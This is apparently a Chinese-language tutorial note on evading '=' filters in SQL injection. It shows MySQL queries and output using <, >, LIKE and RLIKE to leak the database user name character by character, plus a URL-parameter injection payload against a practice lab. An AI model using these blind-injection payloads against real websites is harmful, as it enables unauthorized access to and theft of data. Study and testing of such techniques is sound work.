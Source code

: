 # 等号绕过★ 

如果程序会对=进行拦截 可以使用 like、rlike、regex或者使用< 、>

## < 、>绕过 

```sql
mysql> select * from users where id=1 and ascii(substring(user(),1,1))<115;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and ascii(substring(user(),1,1))>115;
Empty set (0.00 sec)
```

绕过测试

```sql
?id=1' and ascii(substring(user(),1,1))<115--+
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675833702445-f18f4909-fe9e-477f-94ab-50f0634b8596.png)

## like、rlike绕过 

```sql
mysql> select * from users where id=1 and (select substring(user(),1,1)like 'r%');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and (select substring(user(),1,1)rlike 'r');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
```